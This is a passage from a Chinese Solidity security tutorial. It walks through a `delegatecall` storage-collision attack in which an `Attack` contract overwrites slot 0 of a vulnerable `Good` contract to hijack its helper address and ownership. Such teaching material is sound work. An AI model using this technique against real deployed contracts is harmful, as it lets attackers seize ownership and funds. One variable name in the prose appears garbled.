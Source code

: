 在创建完`Good.sol`之后，我们将在`contracts`目录下创建名为`Helper.sol`的`Helper`合同。这是一个简单的合约，通过`setNum`函数更新`num`的值。由于它只有一个变量，该变量将永远指向`Slot 0`。当与`delegatecall`一起使用时，它将修改原始合约中`Slot 0`的值。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Helper {
    uint public num;

    function setNum(uint _num) public {
        num = _num;
    }
}
```

现在在`contracts`目录下创建一个名为`Attack.sol`的合同，并编写以下几行代码。我们将一步步了解它是如何工作的。

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    address public helper;
    address public owner;
    uint public num;

    Good public good;

    constructor(Good _good) {
        good = Good(_good);
    }

    function setNum(uint _num) public {
        owner = msg.sender;
    }

    function attack() public {
        // This is the way you typecast an address to a uint
        good.setNum(uint(uint160(address(this))));
        good.setNum(1);
    }
}
```

攻击者将首先部署`Attack.sol`合约，并在构造函数中获取一个`Good`合约的地址。然后，他将调用`attack`函数，该函数将进一步最初调用`Good.sol`中的`setNum`函数。

值得注意的是最初调用setNum的参数，它的地址被类型化为一个uint256，这是它自己的地址。在`Good.sol`合约中的`setNum`函数接收到作为uint的地址后，它进一步对`Helper`合约进行`delegatecall`，因为现在帮助者变量被设置为`Helper`合约的地址。

在`Helper`合约中，当setNum被执行时，它设置了`_num`，在我们的例子中，现在是`Attack.sol`的地址被打成一个uint，变成num。请注意，由于`num`位于`Helper`合约的`Slot 0`，它实际上会把`Attack.sol`的地址分配给`Good.sol`的`Slot 0`。喔... 你可能知道这是怎么回事了。`Good`的`Slot 0`是帮助者变量，这意味着，攻击者现在已经成功地将`p`地址变量更新到它自己的合同上。
